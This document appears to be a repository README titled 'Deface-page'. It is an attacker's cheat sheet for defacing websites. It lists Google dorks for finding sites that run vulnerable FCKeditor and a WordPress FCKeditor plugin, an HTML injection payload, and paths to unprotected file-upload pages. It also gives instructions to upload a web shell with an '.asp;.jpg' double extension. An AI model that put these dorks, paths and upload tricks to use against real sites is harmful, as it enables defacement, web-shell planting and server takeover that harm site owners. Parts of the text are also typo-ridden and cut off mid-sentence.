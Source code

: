 # Deface-page


Dork : 

notice: you google dork that direcotry :)

# Fckeditor

inurl:"/showcatrows.php?CategoryID="

exploit : "><marquee><h1>Your text</h1></mmarque>

inurl:"frame=product_detail"

exploit :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html

target.com/fckeditor/editor/filemanager/browser/default/connectors/test.html

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

# WordPress

inurl:''/wp-content/plugins/fckeditor-for-wordpress-plugin/''

+ intext:''DESIGN BY PURR.''

+ intext:''powered by WordPress. InBiz theme made it free by desain web.
Hosting by rozhled.cz''

+ intext:''Site entraA(r)nA(c) par WordPress | Connexion | Flux (RSS) des
articles | ThA"me Arthemia de Michael Jubel | Stats''

+ intext:''designed by Portland Web Design''

+ intext:''A(c) 2009 websitemagix.com powered by fotomagix''

+ intext:''powered by fotomagix''

+ intext:''realizace webu: Pavel Gloss''

+ intext:''A(c) 2008 - 2018 Heather Richards Live | All Rights Reserved.''

+ intext:''Powered by WordPress ( WordPress Deutschland ) - Handcoded by

# Exploit :

/wp-content/plugins/fckeditor-for-wordpress-plugin/filemanager/connectors/uploadtest.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/filemanager/connectors/test.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/fckeditor/editor/filemanager/browser/default/frmupload.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/fckeditor/editor/filemanager/browser/default/browser.html

# Directory File Path :

/wp-content/uploads/.....

/wp-content/uploads/[YEAR]/[MONTH]/......

Select PHP extension and then Try to upload as .asp;.jpg filename
shell extension.

Note : This plugin fckeditor-for-wordpress-plugin contains a very serious
vulnerability that allowed hackers to gain full control a

modify, upload and execute files on any website running WordPress. With the
plugin installed on a certain website,

a hacker or malicious person can gain access to the web server via HTTP
through a backdoor in the pluginas directory.
